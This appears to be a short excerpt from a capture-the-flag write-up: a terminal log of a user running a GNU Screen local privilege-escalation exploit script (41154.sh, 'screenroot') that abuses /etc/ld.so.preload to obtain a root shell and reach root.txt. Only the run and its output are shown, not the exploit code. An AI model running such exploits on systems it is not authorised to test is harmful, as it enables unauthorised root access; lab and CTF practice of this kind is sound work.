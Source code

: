 ```python
joker@ubuntu:~$ chmod +x 41154.sh 
joker@ubuntu:~$ ./41154.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...                                                                                                                                             
[+] Triggering...                                                                                                                                                                            
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                                                                                                     
[+] done!                                                                                                                                                                                    
No Sockets found in /tmp/screens/S-joker.                                                                                                                                                    

# id
uid=0(root) gid=0(root) groups=0(root),1000(joker)
# ls /root
root.txt
# 
```

